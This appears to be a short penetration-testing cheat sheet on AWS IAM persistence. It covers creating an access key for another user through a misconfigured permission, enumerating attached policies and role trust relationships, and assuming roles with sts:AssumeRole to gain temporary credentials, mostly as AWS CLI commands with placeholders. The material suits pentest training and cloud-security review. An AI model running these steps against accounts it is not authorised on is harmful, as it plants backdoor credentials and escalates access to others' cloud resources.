 # Persistence and Backdooring

### Suppose we have two users, the user A has permissions to create Access Keys to user B, this misconfig allows us to create an access key for user B and persist our access.

#### 1) Creating a new access key for another user

 - aws iam create-access-key --username EXAMPLE_USERNAME

#### 2) Configuring AWS cli for the new user

 - aws configure --profile EXAMPLE_PROFILE

### Remember, an user can have the maximum of 2 access keys.

#### 3) Testing the credential

 - aws sts get-caller-identity --profile EXAMPLE_PROFILE

#### 4) Accessing more credentials

### It's possible to assume other roles with the sts:AssumeRole permission (Example: An user doesn't have access to an s3 instance, but it has this permission, we can easily assume other roles if we are in the trust relashionship, increasing our access in the instance)

- aws iam list-attached-user-policies --user-name EXAMPLE_USERNAME (Listing managed policies attached to an user)

- aws iam get-policy --policy-arn ARN (Retrieving information about an specific policy)

- aws iam list-policy-versions --policy-arn ARN (Listing information about the version of the policy)

- aws iam get-policy-version --policy-arn POLICY_ARN --version-id ID (Retrieving information about an specific version)

- aws iam list-roles (Listing IAM roles)

- aws iam get-role --role-name ROLE_NAME (Listing trust relashionship between role and user (Which roles we can assume)

- aws iam list-attached-role-policies --role-name ROLE_NAME (Listing all managed policies attached to the specific IAM role)

- aws iam get-policy-version --policy-arn POLICY_ARN --version-id ID (Retrieving information about the specified version of the policy)

- aws sts assume-role --role-arn ROLE_ARN --role-session-name SESSION_NAME (Getting temporary credentials for the role)

### Configuring AWS cli with newer credentials (On Linux)

 - export AWS_ACCESS_KEY_ID

 - export AWS_SECRET_KEY

 - export AWS_SESSION_TOKEN

 - aws sts get-caller-identity (Getting information about the temporary credential)
